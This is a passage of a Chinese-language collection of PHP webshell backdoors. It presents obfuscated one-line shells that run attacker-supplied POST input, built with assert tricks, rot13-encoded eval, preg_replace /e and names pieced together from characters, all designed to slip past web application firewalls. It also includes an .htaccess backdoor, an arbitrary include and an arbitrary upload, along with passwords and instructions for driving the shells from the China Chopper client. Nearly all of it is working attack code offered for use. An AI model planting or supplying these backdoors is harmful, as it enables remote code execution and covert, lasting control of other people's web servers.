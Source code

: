 ```php
<?php
$_="";
$_[+""]='';
$_="$_"."";
$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
?>
<?php ${'_'.$_}['_'](${'_'.$_}['__']);?>
```

在菜刀里写http://site/2.php?_=assert&__=eval($_POST['pass']) 密码是pass。
 如果你用菜刀的附加数据的话更隐蔽，或者用其它注射工具也可以，因为是post提交的。

**第三个**

```php
($b4dboy = $_POST['b4dboy']) && @preg_replace('/ad/e','@'.str_rot13('riny').'($b4dboy)', 'add');
```

str_rot13('riny')即编码后的eval，完全避开了关键字，又不失效果，让人吐血！

## 7.过狗免杀PHP一句话一枚

```php
<?php
preg_replace( "/[errorpage]/e", @str_rot13( '@nffreg($_CBFG[cntr]);' ), "saft" );
//@assert($_POST[page]);
//密码page
//http://www.mxcz.net/tools/rot13.aspx		rot13解密
?>
```

## 8..htaccess做PHP后门

**解析漏洞：**

这个其实在2007年的时候作者GaRY就爆出了，只是后边没人关注，这个利用关键点在于一句话：

```php
AddType application/x-httpd-php .htaccess
###### SHELL ###### 这里写上你的后门吧###### LLEHS ######
```

## 9.高级的PHP一句话木马后门

```php
1、
$hh = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
$hh("/[discuz]/e",$_POST['h'],"Access");
//菜刀一句话
2、
$filename=$_GET['xbid'];
include ($filename);
//危险的include函数，直接编译任何文件为php格式运行
3、
$reg="c"."o"."p"."y";
$reg($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);
//重命名任何文件
4、
$gzid = "p"."r"."e"."g"."_"."r"."e"."p"."l"."a"."c"."e";
$gzid("/[discuz]/e",$_POST['h'],"Access");
//菜刀一句话
5、include ($uid);
//危险的include函数，直接编译任何文件为php格式运行，POST www.xxx.com/index.php?uid=/home/www/bbs/image.gif
//gif插一句话
6、典型一句话
程序后门代码
```
